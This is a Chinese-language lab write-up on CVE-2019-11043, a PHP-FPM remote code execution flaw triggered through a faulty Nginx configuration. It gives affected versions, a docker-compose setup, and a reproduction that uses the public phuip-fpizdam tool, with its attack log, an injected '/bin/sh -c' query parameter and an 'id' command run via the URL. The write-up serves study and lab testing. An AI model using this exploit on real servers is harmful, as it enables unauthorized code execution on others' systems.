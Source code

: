 # PHP-FPM 远程代码执行漏洞 CVE-2019-11043

## 漏洞描述

在长亭科技举办的 Real World CTF 中，国外安全研究员 Andrew Danau 在解决一道 CTF 题目时发现，向目标服务器 URL 发送 %0a 符号时，服务返回异常，疑似存在漏洞。

在使用一些有错误的 Nginx 配置的情况下，通过恶意构造的数据包，即可让 PHP-FPM 执行任意代码。

参考链接：

- https://bugs.php.net/bug.php?id=78599
- https://lab.wallarm.com/php-remote-code-execution-0-day-discovered-in-real-world-ctf-exercise/
- https://github.com/neex/phuip-fpizdam

## 漏洞影响

在 Nginx + PHP-FPM 环境下，当启用了上述 Nginx 配置后，以下 PHP 版本受本次漏洞影响：

```
PHP 7.0 版本
PHP 7.1 版本
PHP 7.2 版本
PHP 7.3 版本
```

另外，PHP 5.6 版本也受此漏洞影响，但目前只能 Crash，不可以远程代码执行。

## 环境搭建

Vulhub 执行如下命令启动有漏洞的 Nginx 和 PHP：

```
docker-compose up -d
```

环境启动后，访问 `http://your-ip:8080/index.php` 即可查看到一个默认页面。

## 漏洞复现

使用 https://github.com/neex/phuip-fpizdam 中给出的工具，发送数据包：

```
$ go run . "http://your-ip:8080/index.php"
2019/10/23 19:41:00 Base status code is 200
2019/10/23 19:41:00 Status code 502 for qsl=1795, adding as a candidate
2019/10/23 19:41:00 The target is probably vulnerable. Possible QSLs: [1785 1790 1795]
2019/10/23 19:41:02 Attack params found: --qsl 1790 --pisos 152 --skip-detect
2019/10/23 19:41:02 Trying to set "session.auto_start=0"...
2019/10/23 19:41:02 Detect() returned attack params: --qsl 1790 --pisos 152 --skip-detect <-- REMEMBER THIS
2019/10/23 19:41:02 Performing attack using php.ini settings...
2019/10/23 19:41:02 Success! Was able to execute a command by appending "?a=/bin/sh+-c+'which+which'&" to URLs
2019/10/23 19:41:02 Trying to cleanup /tmp/a...
2019/10/23 19:41:02 Done!
```

![image-20230328161616798](images/image-20230328161616798.png)

可见，这里已经执行成功。

我们访问 `http://your-ip:8080/index.php?a=id`，即可查看到命令已成功执行：

![image-20230328161631365](images/image-20230328161631365.png)

注意，因为 php-fpm 会启动多个子进程，在访问 `/index.php?a=id` 时需要多访问几次，以访问到被污染的进程。
